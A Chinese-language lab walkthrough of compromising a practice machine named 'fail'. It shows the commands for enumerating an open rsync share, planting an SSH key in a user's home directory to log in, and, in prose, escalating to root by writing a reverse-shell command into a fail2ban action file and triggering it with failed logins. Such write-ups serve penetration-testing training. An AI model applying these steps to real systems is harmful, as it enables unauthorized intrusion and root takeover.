








# 端口枚举

```bash
┌──(aaron㉿aacai)-[~/Desktop/pg/fail]
└─$ sudo nmap -sS -p1-65535 -Pn 192.168.178.126
Nmap scan report for 192.168.178.126
Host is up (0.28s latency).
Not shown: 65533 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
873/tcp open  rsync
```

这里只扫描出来了2个端口, 那么这个机器的重点就得在Rsync里面了. 

参考Hacktricks的内容 https://book.hacktricks.xyz/network-services-pentesting/873-pentesting-rsync#manual-rsync

# Rsync 攻击

```bash
┌──(aaron㉿aacai)-[~/Desktop/pg/fail]
└─$ nc 192.168.201.126 873
@RSYNCD: 31.0
@RSYNCD: 31.0
#list
fox             fox home
@RSYNCD: EXIT

```

使用`nc`去查看分享的文件. 根据上面的List我可以知道这个用户的用户名为fox.

```bash
┌──(aaron㉿aacai)-[~/Desktop/pg/fail]
└─$ rsync -av --list-only rsync://192.168.201.126/fox
receiving incremental file list
drwxr-xr-x          4,096 2021/01/21 17:51:59 .
lrwxrwxrwx              9 2020/12/03 23:52:42 .bash_history -> /dev/null
-rw-r--r--            220 2019/04/18 08:42:36 .bash_logout
-rw-r--r--          3,526 2019/04/18 08:42:36 .bashrc
-rw-r--r--            807 2019/04/18 08:42:36 .profile

```

使用list查看的话只能查看到上述命令输出的文件, 所以回去再看看HackTrick, 它说可以利用Rsync去上传文件, 那么就只有生成ssh-key的方法了, 如下展示如何通过Rsync去上传ssh-key.

```bash
┌──(aaron㉿aacai)-[~/.ssh]
└─$ ssh-keygen 
Generating public/private rsa key pair.
Enter file in which to save the key (/home/aaron/.ssh/id_rsa): 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/aaron/.ssh/id_rsa
Your public key has been saved in /home/aaron/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:mcBT8qcPYpK97OpDIC3wCN+1Br+BIFy8wGu1VJopMKQ aaron@aacai
The key's randomart image is:
+---[RSA 3072]----+
|*.o.... .        |
|*=.+=..+         |
|EB=*o=+.. .      |
|+o*ooo=o =       |
|.o .o.+oS        |
|    .+.o o       |
|   .  o   .      |
|    ..           |
|   .oo.          |
+----[SHA256]-----+
```


然后使用`rsync`去传输.ssh文件

```bash
┌──(aaron㉿aacai)-[~/.ssh]
└─$ rsync -av . rsync://fox@192.168.201.126/fox/.ssh 
```





再使用list来查看目录下的文件

```bash
[~/.ssh]
└─$ rsync -av --list-only rsync://fox@192.168.201.126/fox
receiving incremental file list
drwxr-xr-x          4,096 2023/08/10 08:01:03 .
lrwxrwxrwx              9 2020/12/03 23:52:42 .bash_history -> /dev/null
-rw-r--r--            220 2019/04/18 08:42:36 .bash_logout
-rw-r--r--          3,526 2019/04/18 08:42:36 .bashrc
-rw-r--r--            807 2019/04/18 08:42:36 .profile
drwx------          4,096 2023/08/10 07:59:05 .ssh
-rw-------          2,590 2023/08/10 07:59:05 .ssh/id_rsa
-rw-r--r--            565 2023/08/10 07:59:05 .ssh/id_rsa.pub
-rw-------         11,646 2023/08/10 07:40:49 .ssh/known_hosts
```


但是目前我还不能使用fox去登录这个机器, 因为需要上传`.pub`文件到上面才行.


```bash
[~/.ssh]
└─$ cat id_rsa.pub >> authorized_keys
                                                                                    
[~/.ssh]
└─$ rsync -av . rsync://fox@192.168.201.126/fox/.ssh     
sending incremental file list
./
authorized_keys
```

现在就可以通过ssh来登录fox账号了

```bash
[~/.ssh]
└─$ ssh -i id_rsa fox@192.168.201.126                    
Linux fail 4.19.0-12-amd64 #1 SMP Debian 4.19.152-1 (2020-10-18) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
$ 
```



# 提权

## 信息收集

```bash
╔══════════╣ All users & groups
uid=0(root) gid=0(root) groups=0(root)                                                                                             
uid=1000(fox) gid=1001(fox) groups=1001(fox),1000(fail2ban)
uid=100(_apt) gid=65534(nogroup) groups=65534(nogroup)
uid=101(systemd-timesync) gid=102(systemd-timesync) groups=102(systemd-timesync)
uid=102(systemd-network) gid=103(systemd-network) groups=103(systemd-network)
uid=103(systemd-resolve) gid=104(systemd-resolve) groups=104(systemd-resolve)
uid=104(messagebus) gid=110(messagebus) groups=110(messagebus)
uid=105(sshd) gid=65534(nogroup) groups=65534(nogroup)
uid=10(uucp) gid=10(uucp) groups=10(uucp)
uid=13(proxy) gid=13(proxy) groups=13(proxy)
uid=1(daemon[0m) gid=1(daemon[0m) groups=1(daemon[0m)
uid=2(bin) gid=2(bin) groups=2(bin)
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uid=34(backup) gid=34(backup) groups=34(backup)
uid=38(list) gid=38(list) groups=38(list)
uid=39(irc) gid=39(irc) groups=39(irc)
uid=3(sys) gid=3(sys) groups=3(sys)
uid=41(gnats) gid=41(gnats) groups=41(gnats)
uid=4(sync) gid=65534(nogroup) groups=65534(nogroup)
uid=5(games) gid=60(games) groups=60(games)
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
uid=6(man) gid=12(man) groups=12(man)
uid=7(lp) gid=7(lp) groups=7(lp)
uid=8(mail) gid=8(mail) groups=8(mail)
uid=999(systemd-coredump) gid=999(systemd-coredump) groups=999(systemd-coredump)
uid=9(news) gid=9(news) groups=9(news)

```

通过查看所有用户和组可以发现用户`fox`在一个名为`fail2ban`的组当中, 并且在这个机器上还运行着另外一个服务`fail2ban-server`, 而且还是以`root`身份运行的, 具体去查看一下这个运行的服务.

```bash
fox@fail:/tmp/linux-x86_64$ ps -ef | grep "fail2ban"
root     13489     1  0 00:46 ?        00:00:00 /usr/bin/python3 /usr/bin/fail2ban-server -xf start
fox      13496  1048  0 00:46 pts/0    00:00:00 grep fail2ban

fox@fail:/tmp/linux-x86_64$ ls /etc/fail2ban/
action.d       fail2ban.d  jail.conf  paths-arch.conf    paths-debian.conf    README.fox
fail2ban.conf  filter.d    jail.d     paths-common.conf  paths-opensuse.conf
fox@fail:/tmp/linux-x86_64$ 

```

这里有一个`.fox`为后缀的README文件

```bash
fox@fail:/tmp/linux-x86_64$ cat /etc/fail2ban/README.fox 
Fail2ban restarts each 1 minute, change ACTION file following Security Policies. ROOT!
fox@fail:/tmp/linux-x86_64$ 

```

它告诉我Fail2ban的服务将会在每分钟重启一次, 可以修改`ACTION`文件去做一些什么.



在`jail.conf`配置文件里面只能看到ssh服务被打开





在这些图片中，我们可以看到，如果我们在 10 分钟内尝试登录 2 次失败，我将被禁止登录 1 分钟，禁止操作是在位于`action.d`文件夹中的`iptables-multiport`配置文件中确定的

因此，攻击方向应该是更改 `/etc/fail2ban/action.d/` 中 `iptables-multiport.conf` 文件的配置文件，而不是使用 `iptables 阻止 IP`，那么思路就是把反弹shell的命令放到配置文件当中。 然后，等待 1 分钟让fail2ban 服务重新启动，然后故意进行 2 次失败的 ssh 登录尝试，以便启动自动操作来获取反弹shell。




保存配置文件之后，故意输入两次错误的密码，这样就能触发配置文件中的自动化运行命令来反弹shell。



最终得到root的反弹shell。

